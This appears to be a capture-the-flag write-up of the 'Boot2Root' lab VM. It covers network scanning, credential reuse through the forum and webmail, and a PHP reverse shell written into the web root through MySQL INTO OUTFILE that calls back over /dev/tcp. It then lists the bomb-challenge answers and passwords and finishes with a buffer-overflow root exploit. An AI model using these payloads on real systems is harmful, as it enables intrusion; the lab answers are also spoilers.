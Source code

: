# Boot2Root WriteUp 1
## Step 1
We dont have any ip addres and any user to connect to. We need to find the local ip of the VM:
    
    $> ip addr show
        ...
        vboxnet0 ...
        inet 192.168.56.1/24 ...
        ....
We now have the addres ip of the Virtual Box network interface.

We will use nmap to scan the range of ip and find some machine on it:

    $> nmap 192.168.56.1/24
        ...
        192.168.56.101
        ...

There it is we have our ip address: `192.168.56.101` !
## Step 2
Now that we have the ip address of our VM we can scan it using dirb inside a kali container:

    $> docker run -it kalilinux/kali-rolling:latest
    $> apt update && apt install -y dirb
    $> dirp https://192.156.56.101
    ...
    https://192.156.56.101/forum
    https://192.156.56.101/phpmyadmin
    https://192.156.56.101/webmail
    ...
Great we have 3 places to analyze !

`/phpmyadmin` and `/webmail` require an username and a password so we start with `/forum`

## Step 3
3 out of 4 articles are useless by the one named `Probleme Login ?` by `lmezard` contains information.
We see in the log that right before `lmezard` connection the log output:

    !q]Ej?5K5cyAJ username incorect

We assume `lmezard` is `stupid` and tried to connect with his password as his username.
Indeed we can login in the forum with this information:

    username: lmezard
    password: !q\]Ej?*5K5cy*AJ

## Step 4

In the forum profile of `lmezard` we get an email.

Lets try to connect through `/webmail` with :
    
    email: laurie@borntosec.net
    password: !q\]Ej?*5K5cy*AJ

Gotem ! We have acces to his mails.

The only relevent mail here is `access db` which contains a password for the `root` user of the database.

    username: root
    password: Fg-'kKXBj87E:aJ$

## Step 5

We use the the previous password to access the database with a root access.

Thanks to this root access, inserting some php file is now easy.
Lets create a `temp` database and run this querry on it:

    SQL>SELECT "<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.1/4243 0>&1'"); ?>" into outfile "/var/www/forum/templates_c/reverse.php"

We then run this command on the host machine:

    $> nc -nvlp 4243

Its then needed to load this url on the browser `${VM_IP}/forum/templates_c/reverse.php`.

We now have a shell as user `www-data`


## Step 6

When looking around, we find this file

    $> /home/LOOKATME/password

This file provide all the required information to connect to lmezard in the VM (not through ssh)

    uesrname: lmezard
    password: G!@M6f4Eatau{sF"

## Step 7

We find a README that say that the result password shall be hash with sha256 to access `zaz` user and a zip archive on the `lmezard`'s home.

Inside there is a lot of pcap file with some C code in it and a file number information.
We use a python script called `pcap.py` to concatenate all the file and run the C program.

    $> python pcap.py
    $> gcc out.c
    $> ./a.out
        ...
        password: Iheartpwnage

so the result is :

    username: zaz
    password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

## Step 8

There is a `bomb` that will explore !

We need to reverse engineering the bin `bomb` to defuse it and acces the next users.

- Phase 1: Public speaking is very easy.
 
- Phase 2: 1 2 6 24 120 720

- Phase 3: 1 b 214

- Phase 4: 9 austinpowers

- Phase 5: opekmq

- Phase 6: 4 2 6 3 1 5

There is a secret phase with we use specific answers.

- Phase Secret: 1001

We follow the README instruction and concatenate every answers without space

    username: thor
    password: Publicspeakingisveryeasy.126241207201b2149opekmq426135

## Step 9

There is a `turtle` file with some movement instructions.

We use a python script called `draw.py` to print the movements of the `turtle`.

![](image-1.png)

The word `SLASH` is hidded in this picture.

We MD5 `SLASH` thanks to the hint at the hend of turtle file that say : Can you `digest` the `message` ? MD5 stand for Message Digest 5.

    username: zaz
    password: 646da671ca01bb5d84dbb5fb2238dc8e

## Step 10

There is a bin called `exploit_me` that is own by the `root` user but `zaz` can execute it.
When reverse engineering we see that the program is vulnerable to a buffer overflow:

![](image-2.png)

The size writen inside buf is controled by the user and not by the program.
We use `payload.py` to generate a payload that will change the return addres of strcpy by our shellcode.

Our shellcode will jump to the function `system` with the addres of the string `"/bin/sh"`. This will effectively give us a root shell access.

    $> python payload.py
    $> ./exploit_me $(cat payload)
    $> whoami
        root
    $> id -u
        0

## Step 11

Done !
